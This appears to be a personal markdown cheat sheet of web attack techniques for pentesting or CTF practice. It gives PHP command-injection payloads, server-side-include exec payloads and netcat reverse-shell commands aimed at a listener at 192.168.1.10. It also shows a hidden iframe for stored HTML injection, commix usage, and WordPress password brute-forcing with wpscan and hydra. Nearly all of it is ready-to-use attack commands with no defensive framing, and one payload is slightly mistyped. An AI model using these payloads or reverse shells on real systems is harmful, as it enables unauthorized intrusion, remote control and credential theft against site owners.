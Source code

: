 # php injection
```php
file.php?message=test;system("whoami"); // run any unix command
```
* get shell acccess
    * open terminal and enter 'nc -nvlp 1234'
        * in browser enter file.php?message=test;system("nc 192.168.1.10 1234 -e /bin/bash");

# html injection (stored)
* enter in stored form
```html
<iframe src="192.168.1.10:1234/test" height="0" width="0"></iframe>
```
* open terminal and enter: "nc -nvlp 1234"

# commix (command injection tool -- get reverse shell)
* intercept a form request with burp
```bash
commix --url="192.168.1.11/post.php" --cookie="" --data=""
```

# server-side includes (ssi)
** find post form and enter:
```html
<--!#exec cmd="whoami" -->
```
* can alo use with nc to get reverse shell:
```html
<--!#exec cmd="nc -nv 192.168.1.10 1234 -e /bin/bash" -->
```
**try without quotes if it fails**

# wordpress
> wpscan
* brute-force password with known username:
    * ``wpscan --url 192.168.1.0 --wordlist ABSOLUTE_PATH --username Olav``
    * ``wpscan --url http://192.168.1.10/wordpress``   (if it fails use with -at -ap -eu)
        * if any usernames is found save in file and try and crack ssh with hydra
    * brute force login
        * get wordpress login page by using nikito, dirbuster, zoom, wpscan
            * turn on local proxy, intercept request with burp
                * get post request
                    * if wordlist contains only username set password to something random (this only gets username) -V = verbose. url must be customized from post request.
                    * ``hydra -V -L wordlist.dic -p 123 192.168.1.10 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'``
                        * look for change in request to get correct username
